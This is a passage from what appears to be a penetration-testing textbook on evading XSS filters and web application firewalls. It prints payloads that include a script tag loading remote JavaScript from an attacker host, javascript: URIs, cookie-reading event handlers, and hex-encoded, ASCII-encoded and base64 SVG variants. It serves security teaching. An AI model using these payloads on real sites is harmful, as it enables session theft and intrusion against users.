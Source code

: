 Numerous techniques can be used to evade XSS protections and security products such as web application firewalls (WAFs). Instead of listing all the different evasion techniques outlined by OWASP, this section reviews some of the most popular techniques.

First, let’s take a look at an XSS JavaScript injection that would be detected by most XSS filters and security solutions:

```java
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

he following example shows how the HTML **img** tag can be used in several ways to potentially evade XSS filters:

```java
<img src="javascript:alert('xss');">
<img src=javascript:alert('xss')>
<img src=javascript:alert(&quot;XSS&quot;)>
<img src=javascript:alert('xss')>
```

It is also possible to use other malicious HTML tags (such as tags), as demonstrated here:

```java
<a onmouseover="alert(document.cookie)">This is a malicious link</a>
<a onmouseover=alert(document.cookie)>This is a malicious link</a>
```

An attacker may also use a combination of hexadecimal HTML character references to potentially evade XSS filters, as demonstrated here:

```java
<img src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&
#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

US ASCII encoding may bypass many content filters and can also be used as an evasion technique, but it works only if the system transmits in US ASCII encoding or if it is manually set. This technique is useful against WAFs. The following example demonstrates the use of US ASCII encoding to evade WAFs:

```java
¼script¾alert(¢XSS¢)¼/script¾
```

he following example shows an example of an evasion technique that involves using the HTML **embed** tags to embed a Scalable Vector Graphics (SVG) file:

```java
<EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH
A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm
cvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3
hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW
dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdC
I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" 
AllowScriptAccess="always"></EMBED>
```

**TIP** The OWASP XSS Filter Evasion Cheat Sheet ([_https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet_](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)) includes dozens of additional examples of evasion techniques. You can access numerous XSS evasion technique vectors at my GitHub repository, at [_https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md_](https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md).

- TY Omar :)

